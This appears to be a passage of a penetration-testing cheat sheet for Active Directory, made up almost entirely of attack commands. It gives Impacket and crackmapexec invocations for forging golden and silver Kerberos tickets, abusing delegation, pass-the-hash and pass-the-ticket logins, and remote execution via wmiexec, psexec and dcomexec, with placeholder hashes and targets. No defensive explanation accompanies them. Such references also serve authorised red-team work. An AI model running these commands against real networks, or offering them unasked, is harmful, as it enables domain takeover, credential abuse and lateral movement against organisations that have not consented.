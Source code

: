 ### Domain Privilege Escalation

```bash
# Golden Ticket Attack
python3 ticketer.py -nthash krbtgt-hash -domain-sid domain-sid -domain domain.com administrator

# Silver Ticket Attack
python3 ticketer.py -nthash service-hash -domain-sid domain-sid -domain domain.com -spn service/hostname administrator
```

### Delegation Attacks

```bash
# Unconstrained Delegation
python3 findDelegation.py domain.com/username:password

# Constrained Delegation
python3 getST.py -spn target-spn -impersonate administrator domain.com/service-account:password
```

---

## Lateral Movement

### Pass-the-Hash

```bash
# SMB Login with Hash
crackmapexec smb target-ip -u username -H ntlm-hash

# WMI Execution
python3 wmiexec.py -hashes :ntlm-hash domain.com/username@target-ip
```

### Pass-the-Ticket

```bash
# Export Tickets
python3 getTGT.py -hashes :ntlm-hash domain.com/username

# Use Ticket
export KRB5CCNAME=username.ccache
python3 psexec.py -k -no-pass domain.com/username@target-hostname
```

### WMI/DCOM

```bash
# WMI Execution
python3 wmiexec.py domain.com/username:password@target-ip

# DCOM Execution
python3 dcomexec.py domain.com/username:password@target-ip
```

---
